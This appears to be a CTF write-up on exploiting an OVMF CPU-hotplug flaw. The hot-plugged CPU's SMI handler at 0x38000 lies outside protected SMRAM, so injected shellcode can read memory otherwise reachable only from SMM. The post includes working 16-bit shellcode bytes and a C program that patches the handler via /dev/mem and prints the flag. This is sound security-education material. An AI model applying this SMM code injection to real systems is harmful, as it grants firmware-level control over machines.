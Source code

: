 +++
author = "vmpr0be"
title = "CrewCTF 2025 - SMM & IPI 1"
date = "2025-09-21"
categories = ["ctf"]
+++

### Vocabulary

- SMM: System Management Mode, a highly privileged CPU mode.
- SMRAM: A special region of memory that is only accessible from SMM.
- SMI: An interrupt that halts current execution and switches the CPU to SMM.
- SMBASE: The base of the memory region used for SMM components (e.g., the SMI handler and saved execution state). The default SMBASE is `0x30000`.

### Overview

"You know what else OVMF does with SMM? CPU hotplugging. So I took a look.
**Flag is at physical memory `0x44440000` when read from SMM**."

This means we need to read the flag while the CPU is in SMM.

##### Hint

"I disabled something I should not have disabled. This link might help you understand what is going on: https://lore.kernel.org/all/8091f6e8-b1ec-f017-1430-00b0255729f4@redhat.com/T/"

The author also stated that interrupt logs can be extracted with a special flag:
``
-D interrupts.log -d int
``.
After hot-plugging the CPU with `./addcpu.sh`, we can see three SMIs triggered, meaning the newly plugged CPU is actually executing.

### Vulnerability

To summarize, the bug lies in the fact that when the CPU is hot-plugged, the SMBASE isn’t in SMRAM, which means the SMI handler isn’t protected.

By contrast, on a non-hot-plugged CPU, SMBASE is usually relocated into SMRAM.

### Exploitation

Since the SMI handler isn’t protected, when the hot-plugged CPU is added it will start its execution at the unprotected SMI handler at `SMBASE + 0x8000` (in this case: `0x38000`). We can patch that handler with our own code to read the flag from `0x44440000`.

When the interrupted CPU core switches to SMM, it expects the SMI handler to contain 16-bit instructions, so our injected shellcode must be 16-bit.

We need a physical region accessible outside SMM where we can store the flag read by our shellcode.

```bash
crewctf-2025:/root# cat /proc/iomem
...
00001000-0009ffff : System RAM
...
```

We’ll use `0x00001000` as storage.

#### Shellcode

The shellcode basically does the following:

- Read the flag from `0x44440000`.
- Write the flag to our storage `0x1000`.

```C
mov esi, 0x44440000   ; storage address
mov edi, 0x1000       ; memory accessible by us
mov ecx, 64           ; bytes to be copied

copy_loop:
mov al, [esi]         ; read byte of the flag
mov [edi], al         ; store it in our storage
inc esi               ; next flag byte
inc edi               ; next storage byte
dec ecx               ; decrease counter
jnz copy_loop         ; loop again
```

#### Injection

**reveal.c:**
```C
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <unistd.h>
#include <string.h>

int main() {
    int fd;
    void *map;
    
    fd = open("/dev/mem", O_RDWR);
    if (fd < 0) {
        perror("open /dev/mem");
        return 1;
    }

    map = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x38000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    unsigned char shellcode[] = {
        0x66, 0xBE, 0x00, 0x00, 0x44, 0x44,
        0x66, 0xBF, 0x00, 0x10, 0x00, 0x00,
        0x66, 0xB9, 0x40, 0x00, 0x00, 0x00,
        0x67, 0x8A, 0x06,
        0x67, 0x88, 0x07,
        0x66, 0x46,
        0x66, 0x47,
        0x66, 0x49,
        0x75, 0xF2
    };

    memcpy(map, shellcode, sizeof(shellcode));
    printf("Shellcode written to 0x38000\n");

    munmap(map, 0x1000);

    system("./addcpu.sh");

    map = mmap(NULL, 64, PROT_READ, MAP_SHARED, fd, 0x1000);
    if (map == MAP_FAILED) {
        perror("mmap");
        close(fd);
        return 1;
    }

    printf("Flag: %s\n", (char*)map);

    munmap(map, 64);
    close(fd);

    return 0;
}
```

Similarly, we compile and run this program, which will:
- Inject shellcode at `0x38000`.
- Run the ./addcpu.sh script.
- Read the flag from `0x1000`.

```bash
gcc reveal.c -o reveal
./reveal
```

```bash
Shellcode written to 0x38000
...
Flag: crew{but_why_isnt_addcpu_working_*REMOVED*}
```
